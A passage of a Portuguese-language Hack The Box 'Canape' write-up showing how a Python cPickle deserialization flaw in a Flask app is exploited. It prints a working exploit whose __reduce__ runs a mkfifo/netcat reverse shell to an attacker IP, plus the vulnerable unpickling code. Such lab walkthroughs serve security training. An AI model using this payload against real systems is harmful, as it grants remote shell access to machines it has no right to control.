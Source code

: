 Testamos na nossa máquina, e vemos que deu certo.

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-canape/C_a8.png)

Agora devemos alterar de acordo com o que está na requisição do site, para isso vamos verificar com o BurpSuite como estão os dados

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-canape/C_a9.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-canape/C_a10.png)

`character=TESTE&quote=TESTE`

Show... vamos adaptar o exploit então

```
import os
import cPickle
import requests
from hashlib import md5

class exploit(object):
    def __reduce__(self):
        return (os.system, ('echo homer!; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.117 443 >/tmp/f',))
sc = cPickle.dumps(exploit())
# print sc

char,quote = sc.split("!")

p_id = md5(char+quote).hexdigest()
requests.post("http://127.0.0.1:5000/submit", data={'character': char, 'quote': quote})
```

Agora vamos ver o /check, o que é feito nele

```
     path = "/tmp/" + request.form["id"] + ".p"
-    item = cPickle.load(open(path, "rb"))
+    data = open(path, "rb").read()
+
+    if "p1" in data:
+        item = cPickle.loads(data)
+    else:
+        item = data

```

É isso, ele carrega o submit no pickles, ai que está a malícia, quando ele carrega, tem um comando nosso ali, ele desserializa e executa!

Então enviamos o "id" como "p_id", show! Atualizamos o exploit

exploit.py

```
import os
import cPickle
import requests
from hashlib import md5

class exploit(object):
    def __reduce__(self):
        return (os.system, ('echo homer!; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.117 443 >/tmp/f',))
sc = cPickle.dumps(exploit())
# print sc

char,quote = sc.split("!")
```